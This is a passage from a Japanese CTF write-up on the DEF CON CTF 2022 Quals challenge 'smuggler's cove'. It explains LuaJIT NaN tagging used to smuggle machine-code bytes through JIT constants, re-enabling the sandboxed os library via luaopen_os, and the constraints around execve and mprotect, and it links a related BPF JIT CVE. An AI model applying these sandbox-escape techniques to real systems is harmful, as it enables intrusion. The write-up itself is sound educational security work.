そこに例えば、有効な浮動小数点数以外のオブジェクトへのポインターを埋め込もうとしたのがNaN Tagging方式です。
LuaJITにおける具体的な表現はソースコード(<https://github.com/LuaJIT/LuaJIT/blob/1b8d8cabdcc4f1977dc8c51a82074653078d870b/src/lj_obj.h#L242-L258>)をご参照ください。

さて、ということで、先ほどまでの微妙に桁が揃ってなかった変換も、実はNaN Taggingに従っていたことになります。
`a[0x1123456789abcd0]=1`の添字部分から、`movabs rdi,0x437123456789abcd`という命令が生成されたのでした。
Python3では、`pack`/`unpack`関数(<https://docs.python.org/ja/3/library/struct.html>)を使うことにより、IEEE 754の解釈が可能です。

<!-- ```python
>>> pack("Q", 0x437123456789abcd)
>>> # 定数部分のバイト表現は64bitのlittle endianでしたね
b'\xcd\xab\x89gE#qC'
>>> unpack("d", pack("Q", 0x437123456789abcd))
>>> # IEEE 754の数値として解釈します
(7.718168961395835e+16,)
>>> hex(int(unpack("d", pack("Q", 0x437123456789abcd))[0]))
>>> # 整数型の値として16進数で表示します
'0x1123456789abcd0'
``` -->


という感じで、64bitの添字をそのまま復元できましたね。
ここから分かることは、**64bitのIEEE 754形式に従う浮動小数点数として添字を書いておけば、8バイト全部を命令に使えたことになります**。
我々の場合は6バイトが限界だったので、圧倒的にエレガントですね。
興味のある方はエクスプロイトの改良に取り組んでみてください。
すでに簡潔なwriteup(<https://uz56764.tistory.com/55>、韓国語)が出ていますので、ここまでの知識を参考に読めるようになったと思います。

> (余談) なぜNaN Taggingを使っているのに気づかなかったのか。。。猛省すべき点ではありますが、言い訳としては、「LuaJITの連想配列オブジェクトはただの配列として利用される限り、整数添字として最適化される」という中途半端な知識があったからです。おそらく数値計算のように、添字 1番目から密に操作するコードであれば、内部的に最適化された構造が利用されるかもしれません。しかし今回は機械語を埋めたので、かなり疎な連想配列となり、配列として解釈されなかったようです。冷静になって今書いてみると至極当たり前な気がしますが、当日は急いでいて気付かないことも多いので、定期的に重要な問題はしっかり振り返る必要がありますね。(冒頭に戻る)

# 2-2. 利用した`luaopen_os`に関する注意
今回は`luaopen_os`関数を利用して、本来使えないように設計されたはずの`os`ライブラリを使えるようにしました。
ただこれが使えるのはLuaJITだけで、Lua(プログラミング言語としてではなく、インタプリターとしての言語処理系)ではもう少し面倒なようです。

Luaにも同様の`luaopen_os`関数がありますが(<https://github.com/lua/lua/blob/v5.4.4/loslib.c#L426>)、実装を見る限り、`os`ライブラリのオブジェクトは作ってくれますが、グローバル変数として登録してくれないようです(<https://github.com/lua/lua/blob/v5.4.4/loslib.c#L426>)。
代わりに、`luaL_requiref`関数を適切に呼び出して(<https://github.com/lua/lua/blob/v5.4.4/linit.c#L61>)、グローバル変数への登録まで面倒を見てもらう必要があります(<https://github.com/lua/lua/blob/v5.4.4/lauxlib.c#L962-L969>)。
よって、不可能ではありませんが、`"os"`という文字列を作って引数経由でそのポインターを渡したり、グローバル変数として登録させるために`true`を引数として追加的に渡す必要があります。

# 3. 苦労したところについて
最後に議論も兼ねて、苦労したところについてお話ししたいと思います。

まずは、433文字制約があるせいで、引数を正しく構築して、外部プログラムを呼び出す部分に苦労しました。
まあ6バイトしか使えないパターンで頑張ってしまったせいでもありますが。。。
`execve`システムコールを呼び出して、一発で実行させることもできませんでした。
また代わりに、`mprotect`システムコールを呼び出して、別に与えた文字列の部分を実行可能な領域に変更して、その領域へジャンプし、その中で`execve`を呼び出すコードも制約に引っかかりました。
文字列は適切にエスケープして処理する必要があるので、大変です。

もう一つ、今回説明は省略したジャンプオフセットの自動計算スクリプトですが、なんとかして、もっと合理的に合成できませんかね...？
実はDEF CONへ向けて、Plaid CTF 2022にも参戦していたのですが、そこでtinebpf (<https://plaidctf.com/challenge/12>)という問題が出ました。
詳細は割愛しますが、Rustで書かれたBPFインタプリターの条件分岐先(オフセット)のエンコードのバグを突いた問題です。
すぐに戦略は決まったのですが、エンコードがうまく壊れて、今回の問題と同じように定数領域へ不正にジャンプさせて、かつ命令列間をジャンプできるように、BPFのコードを合成できずに競技中に解くことはできませんでした。

PlaidCTFのDiscordチャンネルでは、ファジングして見つけたよ、という方がいらっしゃいました。
ファジングとは、ある程度パターンを決めておいて、細かいオフセットや命令の順序等は成功するまでランダムに繰り返し続ける手法のことです。
今回の問題ではファジングが不要になるように頑張りましたが、もしかしたらこの手の問題を迅速に解くには、ファジング的要素が欠かせないのかもしれませんね。

> (補足) 「今回の問題みたいな脆弱性は、実際にあり得るの？」という疑問が思い浮かんだ方も多いかと思います。答えはYESです。今回の問題は、tinebpfを簡単にして、不正なジャンプ先を固定値で直接指定できるようにしたものとみなせます。tinebpf自体は、実際のLinuxカーネルに搭載されているBPFのJITコンパイラーに存在した過去の脆弱性(CVE-2021-29154、<https://www.openwall.com/lists/oss-security/2021/04/08/1>)を参考にしていると思われます。このようにCTFでは、最先端の脆弱性(CVE)を競技用にアレンジした問題が出題されることもあります。

# おわりに
今回は、DEF CON CTF 2022 Qualsで出題されたsmuggler's coveの解説をさせていただきました。
3節で述べた点が手間のかかるポイントで、ちょっと気合を入れて解く必要があるという印象を受けました。
実際に、私が取り掛かる前に解析しておいてくれた先輩は、オフセットとペイロードの調整ゲームであることに気づいて、隣で飽きた様子でした。
(その後で、「解けそうなので、一緒に解きましょう」と無理矢理付き合っていただきましたが、解けてよかったです)

ただ、tinebpfのような問題や実際の脆弱性も存在したことから、このような調整を確実かつ迅速に解決できるような技術やスキルは求められると思います。
競技終了後ですが、振り返りとしてTeedium Walletという問題を解いているときも、同じように苦労しましたし、結局どうしてこの値でいいのか、まだ完全に理解できた心地がしません。
今回の問題であれば、そうですね、3時間以内で解けるべきだと思うので、まだまだ精進すべきですね。

こんな感じで我々はCTFを通しながら、最新の脆弱性や最先端の攻撃技術にも触れつつ、技術研鑽に取り組んでいます。
今回は私が書かせていただきましたが、NTTグループ全体を横断して、優秀な頭脳を持ったメンバーが多数在籍しているので、とても良い刺激になってます。
NTTグループの社員の皆さんは興味あれば是非、Team Enuへ！
そうでない学生さんや他社の皆さんも興味あれば是非、NTTでお待ちしております!!
